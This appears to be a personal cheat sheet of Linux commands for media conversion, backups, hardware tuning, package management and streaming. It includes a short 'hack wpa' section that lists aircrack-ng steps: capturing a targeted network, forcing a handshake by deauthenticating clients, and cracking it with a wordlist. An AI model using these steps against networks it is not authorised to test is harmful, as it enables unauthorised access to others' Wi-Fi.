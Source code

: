 unrar all archives in current folder   
$ for f in *.rar;do unrar e -o+ $f;done   

show folder size    
$ du -h --max-depth=1   

list folder by size    
$ ls -lSha /home/jason  

copy with progress bar and transferspeed display 
$ rsync -ah --progress source-file destination-file  

convert movie to xbox360 format 
$ ffmpeg -i "file.mkv" -vcodec libx264 -acodec ac3 -ab 160k "file.mp4"  

batch convert above $ for i in *.mkv;   do name=`echo $i | cut -d'.' -f1`;   echo $name;   ffmpeg -i "$i" "${name}.mp4" -vcodec libx264 -acodec ac3 -ab 160k; done  

monero daemon 
$ monerod --data-dir /mnt/cloud/monero  

import gpg key for aur packages 
$ gpg --receive-key keyid 

ethereum blockchain sync 
$ geth --syncmode "fast" 

show external ip 
$ curl ifconfig.me 

weather forecast 
$ curl wttr.in/Wilhelmshaven 

set gtk cursor global value for browsers 
$ gsettings set org.gnome.desktop.interface cursor-theme Adwaita 

compress files or folders 
$ tar -cvzf tarballname.tar.gz itemtocompress itemtocompress  

calculator 
$ bc -l  

switch command output language from native language to english 
$ export LC_ALL=C  

backup through ssh 
$ rsync -avz /source/folder/ user@remoteadress:/remote_folder  

unrar all archives in folder (autoverwrite enabled)  
$ find . -name "*.rar" -exec unrar x -o+ {} \; 

show cpu frequency 
$ cat /proc/cpuinfo | grep "MHz" & watch -n1 "cat /proc/cpuinfo | grep \"^[c]pu MHz\"" 

force cpu governor 
$ sudo cpupower frequency-set -g powersave or performance  

list available governors 
$ cat /sys/devices/system/cpu/cpu0/cpufreq/scaling_available_governors 

show network usage 
$ iftop  

create playlist 
$ ls -1 *.mp4 > playlist.m3u  

cut characters playlist example 
$ cut -c 50- playlist.m3u > newplaylist.m3u 

batch rename delete example 
$ for file in *text* ; do mv "$file" "`echo $file | sed 's/\text//'`" ; done  

batch rename simple 
$ rename 0000 000 file* 

output orphaned packages to file & run removal  
$ sudo pacman -Qqdt > .pkglist.txt & sudo pacman -R - < .pkglist.txt  

hack wpa 
$ airmon-ng start wlp2s0f0u4 & airodump wlp2s0f0u4mon  

hack wpa target network 
$ airodump-ng -c 10 --bssid 00:14:BF:E0:E8:D5 -w /root/aircrack/ wlp2s0f0u4mon  

force handshake 
$ aireplay-ng –0 2 –a [router bssid] –c [client bssid] wlp2s0f0u4mon  

crack with wordlist 
$ aircrack-ng -a2 -b [router bssid] -w [path to wordlist] /root/aircrack/*.cap  

get nvme temperature 
$ sudo nvme smart-log /dev/nvme0 | grep temperature  

delete all but given extension 
$ find . -type f ! -name '*.txt' -delete 

amd vega current values 
$ watch -n 0.5 sudo cat /sys/kernel/debug/dri/0/amdgpu_pm_info  

disable vsync environment variable 
$ vblank_mode=0 

current vega voltage values 
$ sudo cat /sys/class/drm/card0/device/pp_od_clk_voltage  

force high dpm on graphics card 
$ echo high > /sys/class/drm/card0/device/power_dpm_force_performance_level 

clone partition to image 
$ partclone.ext4 -c -s /dev/sda1 | gzip -c > image_sda1.pcl.gz

clone image to partition 
$ zcat image_sda1.pcl.gz | partclone.ext4 -r -o /dev/sda1

ungzip to image
$ sudo cat ubuntu_server_2.pcl.gz | sudo gzip -d -c | sudo partclone.restore -C -s - -O partition.img

check image & resize 
$ sudo e2fsck -f partition.img & sudo resize2fs partition.img 

mount image to folder 
$ sudo mount -o loop -t ext4 partition.img /tmp/clone/

git 
$ vim text.md & git add text.md & git commit -m "description" & git push -u origin master

ssh download file 
$ scp user@remote_host:remote_file local_file 

ssh upload file 
$ scp local_file user@remote_host:remote_file

Gallium HUD example
$ GALLIUM_HUD=simple,fps,temperature LD_PRELOAD=$LD_PRELOAD:/usr/\$LIB/libgamemodeauto.so %command%

show last boot log 
$ journalctl -b -12

play stream with vlc 
$ vlc "$(youtube-dl --get-url --format best 'https://www.youtube.com/watch?v=video_id')"

combine video files 
$ ffmpeg -i "concat:input1.mp4|input2.mp4|input3.mp4" -c copy output.mp4

switch between cpu govenors 
$ sudo cpupower frequency-set -g powersave / sudo cpupower frequency-set -g ondemand

force vega performance level 
$ echo manual > /sys/class/drm/card0/device/power_dpm_force_performance_level & echo 7 > /sys/class/drm/card0/device/pp_dpm_sclk

revert vega performance control 
$ echo auto > /sys/class/drm/card0/device/power_dpm_force_performance_level

copy multiple files from one type within subdirectories 
$ find -iname '*.mp3' -exec cp {} /home/sk/test2/ \;

enable root x applications in current wayland session 
$ xhost +SI:localuser:root

firefox,enable tab mouse scroll 
$ about:config, toolkit.tabbox.switchByScrolling true

firefox, disable theme sync 
$ about:config, services.sync.prefs.sync.lightweightThemes false

search files 
$ find /home/username/ -name "*.err"

monitor zustand einmalig setzen 
$ xset dpms force {standby|suspend|off|on}

read current huge pages value 
$ sudo sysctl -w vm.nr_hugepages=$(nproc) 

enable huge pages 
$ for i in $(find /sys/devices/system/node/node* -maxdepth 0 -type d);do    echo 3 > "$i/hugepages/hugepages-1048576kB/nr_hugepages";done

insert date /time and vim 
$ :r! date

query ETH price 
$ watch -tcn5  "curl -s https://api-pub.bitfinex.com/v2/ticker/tETHEUR | awk -F',' '{print \"ETH/EUR: €\" \$7}'"

set star citizen linux resource limit 
$ sudo sysctl -w vm.max_map_count=16777216

watch stream with hls & no cache 
$ streamlink -p mpv -a '--cache=no {filename}' --verbose-player --hls-live-edge 1 --hls-segment-threads 2 'url' 'quality'

generate 2fa code 
$ oathtool -b --totp 'xxxx xxxx xxxx xxxx'

query available streams with youtube-dl 
$ youtube-dl -F URL

stream audio only with mpv 
$  mpv --ytdl-format=251 URL
